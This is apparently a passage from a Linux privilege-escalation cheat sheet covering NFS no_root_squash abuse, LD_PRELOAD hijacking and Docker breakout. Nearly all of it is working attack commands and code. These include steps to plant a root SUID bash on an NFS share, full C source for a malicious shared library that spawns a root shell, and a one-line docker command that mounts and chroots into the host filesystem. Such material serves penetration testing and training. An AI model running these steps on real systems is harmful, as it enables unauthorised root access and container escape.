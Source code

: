### 8. NFS Shares
```bash
# Check for NFS exports
showmount -e <target>
cat /etc/exports

# Look for no_root_squash
# If no_root_squash is set, create SUID binary on NFS share

# On attacker (as root):
mkdir /mnt/nfs
mount -t nfs <target>:/share /mnt/nfs
cd /mnt/nfs
cp /bin/bash .
chmod +s bash

# On target:
cd /share
./bash -p
```

### 9. Environment Variables
```bash
# Check environment
env
echo $LD_PRELOAD
echo $LD_LIBRARY_PATH

# LD_PRELOAD exploitation
# Create malicious shared library
cat > /tmp/shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
export LD_PRELOAD=/tmp/shell.so

# Run SUID binary
/usr/bin/suid-binary
```

### 10. Docker Breakout
```bash
# Check if inside container
ls -la /.dockerenv
cat /proc/1/cgroup

# If docker socket is mounted
ls -la /var/run/docker.sock

# If in docker group
id | grep docker

# Mount host filesystem
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```